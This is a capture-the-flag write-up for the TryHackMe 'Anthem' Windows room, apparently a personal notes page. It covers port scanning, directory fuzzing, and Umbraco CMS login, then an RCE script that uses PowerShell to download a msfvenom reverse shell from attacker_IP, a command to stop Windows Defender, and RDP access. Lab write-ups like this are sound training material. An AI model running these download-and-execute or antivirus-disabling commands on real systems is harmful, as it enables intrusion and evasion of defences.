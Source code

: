 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Anthem
# DESCRIPTION       . Exploit a Windows machine in this beginner level challenge.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/anthem
```

```bash
sudo nmap -sSVC -T5 -Pn -p- 10.10.254.142 -oN anthem
```

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-12-07T13:11:38+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WIN-LU09299160F
| Not valid before: 2023-12-06T13:07:13
|_Not valid after:  2024-06-06T13:07:13
| rdp-ntlm-info: 
|   Target_Name: WIN-LU09299160F
|   NetBIOS_Domain_Name: WIN-LU09299160F
|   NetBIOS_Computer_Name: WIN-LU09299160F
|   DNS_Domain_Name: WIN-LU09299160F
|   DNS_Computer_Name: WIN-LU09299160F
|   Product_Version: 10.0.17763
|_  System_Time: 2023-12-07T13:10:32+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

- By inspecting the source code, we can find the `/search`, `/categories`, `/tags` and `archive` directories.

- The `ffuf` command adds a few files/directories on this list

```
ffuf -u http://10.10.254.142/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .txt,.php -t 100
```

```
Archive                 [Status: 301, Size: 118, Words: 6, Lines: 4]
archive                 [Status: 301, Size: 118, Words: 6, Lines: 4]
authors                 [Status: 200, Size: 4075, Words: 769, Lines: 112]
blog                    [Status: 200, Size: 5399, Words: 1311, Lines: 127]
Blog                    [Status: 200, Size: 5399, Words: 1311, Lines: 127]
categories              [Status: 200, Size: 3546, Words: 561, Lines: 104]
install                 [Status: 302, Size: 126, Words: 6, Lines: 4]
robots.txt              [Status: 200, Size: 192, Words: 17, Lines: 11]
robots.txt              [Status: 200, Size: 192, Words: 17, Lines: 11]
rss                     [Status: 200, Size: 1855, Words: 240, Lines: 30]
search                  [Status: 200, Size: 3472, Words: 520, Lines: 93]
Search                  [Status: 200, Size: 3472, Words: 520, Lines: 93]
RSS                     [Status: 200, Size: 1855, Words: 240, Lines: 30]
sitemap                 [Status: 200, Size: 1047, Words: 94, Lines: 30]
SiteMap                 [Status: 200, Size: 1047, Words: 94, Lines: 30]
tags                    [Status: 200, Size: 3599, Words: 579, Lines: 105]
```

- Most of the pages are irelevant to us. However, if we read the first article on the blog, we can find an email address `JD@anthem.com` which is the address of the author, `Jane Doe`.

- This is important as it gives us the clear syntax used for email addresses.

- `Robots.txt` file reveals the following content

```
{redacted}!

# Use for all search robots
User-agent: *

# Define the directories not to crawl
Disallow: /bin/
Disallow: /config/
Disallow: /umbraco/
Disallow: /umbraco_client/
```

- However, only `/umbraco` is relevant to us. 

- Here, the CTF holds our hand a bit and asks us about the Administrator username and email.

- To gather this, we need to head to the second article on the blog and search the lyrics of the poem on the internet. 

- This will reveal the name of the Administrator and, using the naming convention from above, his email address.

```
 S{REDACTED}y
 {redacted}@anthem.com
```

- Using the `email` and the string from `robots.txt`, `{redacted}!`, we're able to login to the `Umbraco CMS`.

- Alright. I was doing some overthinking here trying to get a reverse shell ; 

- I tried a bunch of RCE vulnerabilities from exploit-db targeting Umbraco ; most didn't work, two of them looked promising but outputted some python errors and I didn't wanted to spend time trying to fix them yet.

- Then, I've moved to metasploit and found a module which ... wasn't working on our Umbraco version.

- Finally, I found a vulnerability that allowed for RCE [here](https://github.com/noraj/Umbraco-RCE) and seemed to work, unlike its exploit-db counterparts.

- And here... I went down the loophole again. The syntax is

```
python3 exploit.py -u user -p psw -i 'http://ip' -c command -a args
```

```
python3 exploit.py -u <user> -p {redacted}! -i 'http://10.10.116.113' -c powershell -a "Invoke-WebRequest -Uri http://attacker_IP:80/rev_shell.exe -OutFile shell.exe"

Invoke-WebRequest : Access to the path 'C:\windows\system32\inetsrv\shell.exe' is denied.
```

- Using the command above, I tried transferring `rev_shell.exe` from my host, which is a reverse shell generated via msfvenom ;

- If you look to the output, it tried to write it to a path where we don't have write access.

- I assume all I had to do was to change `-OutFile` to `C:\Temp\shell.exe` or something similar .. but it didn't work :)

```
Error parsing the XSLT:System.Xml.Xsl.XslLoadException: Unrecognized escape sequence An error occurred at (1,107).
   at System.Xml.Xsl.XslCompiledTransform.LoadInternal(Object stylesheet, XsltSettings settings, XmlResolver stylesheetResolver)
   at umbraco.macro.CreateXsltTransform(XmlTextReader xslReader, Boolean debugMode)
   at umbraco.presentation.umbraco.developer.Xslt.xsltVisualize.visualizeDo_Click(Object sender, EventArgs e)
```

- However, my `python webserver` received a GET request, so I assumed this was because the script couldn't parse an output to return when the file transfer finished.

```
10.10.116.113 - [07/Dec/2023 23:38:54] "GET /rev_shell.exe HTTP/1.1" 200 
```

- I tried running the file... but with no luck. 

- Then, I tried different Powershell reverse shells until I got here.

```
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

- So yeah, "I'll just disable Windows defender" - I said :) 

```
python3 exploit.py -u <user> -p UmbracoIsTheBest! -i 'http://10.10.116.113' -c sc -a "stop windefend"

[SC] OpenService FAILED 5:

Access is denied.
```

- Ooops. Then.... I REMEMBERED SOMETHING. Look at the NMAP output.

- Did you see it? We have port 3389 open and I totally forgot about it. And yes... the credentials for the CMS work on RDP too.

```
xfreerdp /u:SG /v:10.10.116.113 /cert-ignore /dynamic-resolution 
```

- And we're in :) Not that hard... huh?

- The room guides us again and tells us that the Administrator password is available somewhere on the system and it's hidden.

- So I went to C:\ (wanted to go to Users -> Administrator) and then to `View -> Hidden items`. A folder `backups` appeard in the file explorer and it container a text file that couldn't be read by us.

- `Right Click, Properties, Security, Advanced` and assigned the file to my user, marking it with `Full Access`. 

- Then, you can switch to Administrator account with the password found.

**WEB FLAGS**

1. First blog post source code
2. Main page source code
3. Navigate to the profile of Jane Doe.
4. Second blog post source code

**TIP**: CTRL + F after THM to see them easier. I spent more time finding these without CTRL+F than anything else :) 

**HOST FLAGS**

1. User: User's desktop.
2. Root: Administrator's desktop.